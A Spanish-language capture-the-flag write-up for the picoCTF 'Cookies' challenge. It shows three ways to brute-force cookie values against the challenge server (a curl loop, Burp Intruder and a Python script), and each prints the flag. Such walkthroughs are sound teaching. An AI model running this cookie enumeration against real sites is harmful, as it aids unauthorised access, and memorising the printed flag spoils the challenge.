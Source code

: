 Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

Hints:
1. None

## Solución 1:
Usando un ciclo for con curl
```
┌──(kali㉿kali)-[~]
└─$ for i in {1..20}; do curl -s  http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>

picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
```

## Solución 2:
Usando burpsuit y realizando un ataque sniper, obtenemos que la cookie con valor 18 se obtiene la coincidencia con el Grep - Match del intruder 
```
    <p style="text-align:center; font-size:30px;">
	    <b>
		    Flag
	    </b>
	    : <code>
		    picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
	    </code>
    </p>
```

## Solución 3:
Usando un script de python:
```
import requests 
import re

url = "http://mercury.picoctf.net:21485/check"

for i in range(21):
        cookies = {'name':'{}'.format(i)}
        r = requests.get(url, cookies=cookies)
        if 'picoCTF{' in r.text:
                flag = re.findall('picoCTF\{.*\}', r.text)[0] 
                print(flag) 
                

┌──(kali㉿kali)-[~]
└─$ python exploit.py
/home/kali/exploit.py:10: SyntaxWarning: invalid escape sequence '\{'
  flag = re.findall('picoCTF\{.*\}', r.text)[0]
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

```